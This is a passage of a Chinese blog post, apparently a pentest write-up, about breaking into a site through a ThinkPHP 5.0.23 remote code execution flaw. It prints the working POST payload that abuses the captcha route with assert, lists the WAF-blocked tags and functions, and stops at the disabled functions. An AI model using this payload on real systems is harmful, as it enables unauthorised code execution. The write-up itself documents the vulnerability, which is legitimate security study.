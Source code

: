 记一次有趣的thinkphp代码执行
==================

2019-12-05 [原文](/link/S0U1UThrUVBKTA==)

(adsbygoogle = window.adsbygoogle || \[\]).push({});

0x00 前言
-------

朋友之前给了个站，拿了很久终于拿下，简单记录一下。

0x01 基础信息
---------

*   漏洞点：tp 5 method 代码执行，payload如下
    
    ```
    
    
    1.  `POST /?s=captcha`
    
    3.  `_method=__construct&method=get&filter[]=assert&server[]=1&get[]=1`
    
    
    ```
    
*   无回显，根据payload 成功判断目标thinkphp 版本应为5.0.23
    
*   有waf，waf拦截了以下内容
    
    ```
    
    
    1.  `php标记:  
        `
    2.  `<?php  
        `
    3.  `<?=  
        `
    4.  `<?`
    
    6.  `php 函数:  
        `
    7.  `base64_decode  
        `
    8.  `file_get_contents  
        `
    9.  `convert_uuencode`
    
    11.  `关键字：  
        `
    12.  `php://`
    
    
    ```
    
*   linux
    
*   disable\_function禁用了以下函数
    